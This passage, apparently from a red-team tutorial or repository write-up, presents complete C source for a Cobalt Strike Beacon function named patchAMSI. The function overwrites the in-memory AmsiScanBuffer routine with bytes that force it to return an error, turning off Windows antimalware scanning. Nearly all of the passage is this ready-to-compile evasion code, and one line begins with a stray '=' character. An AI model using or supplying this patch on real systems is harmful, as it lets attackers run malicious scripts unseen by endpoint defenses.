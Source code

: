 The next piece of code defines a function called `patchAMSI`. This function is the core of our *AMSI* bypass. Comments for each individual part are also available within the code.

```
/*Patch AMSI*/
BOOL patchAMSI()
{
        
#ifdef _M_AMD64
    unsigned char amsiPatch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };//x64
#elif defined(_M_IX86)
        unsigned char amsiPatch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };//x86
#endif

        HINSTANCE hinst = LoadLibrary("amsi.dll");
    void* pAddress = (PVOID)GetProcAddress(hinst, "AmsiScanBuffer");
        if(pAddress == NULL)
        {
                BeaconPrintf(CALLBACK_ERROR , "AmsiScanBuffer failed\n");
                return 0;
        }
        
        void* lpBaseAddress = pAddress;
        ULONG OldProtection, NewProtection;
        SIZE_T uSize = sizeof(amsiPatch);
        
        //Change memory protection via NTProtectVirtualMemory
        _NtProtectVirtualMemory NtProtectVirtualMemory = (_NtProtectVirtualMemory) GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtProtectVirtualMemory");
        NTSTATUS status = NtProtectVirtualMemory(NtCurrentProcess(), (PVOID)&lpBaseAddress, (PULONG)&uSize, PAGE_EXECUTE_READWRITE, &OldProtection);
        if (status != STATUS_SUCCESS) {
                BeaconPrintf(CALLBACK_ERROR , "[-] NtProtectVirtualMemory failed %d\n", status);
                return 0;
        }

        //Patch AMSI via NTWriteVirtualMemory
        _NtWriteVirtualMemory NtWriteVirtualMemory = (_NtWriteVirtualMemory) GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtWriteVirtualMemory");
        status = NtWriteVirtualMemory(NtCurrentProcess(), pAddress, (PVOID)amsiPatch, sizeof(amsiPatch), NULL);
        if (status != STATUS_SUCCESS) {
=               BeaconPrintf(CALLBACK_ERROR , "[-] NtWriteVirtualMemory failed\n");
                return 0;
        }

        //Revert back memory protection via NTProtectVirtualMemory
        status = NtProtectVirtualMemory(NtCurrentProcess(), (PVOID)&lpBaseAddress, (PULONG)&uSize, OldProtection, &NewProtection);
        if (status != STATUS_SUCCESS) {
                BeaconPrintf(CALLBACK_ERROR , "[-] NtProtectVirtualMemory2 failed\n");
                return 0;
        }
        
        //Successfully patched AMSI
        return 1;       
}
```
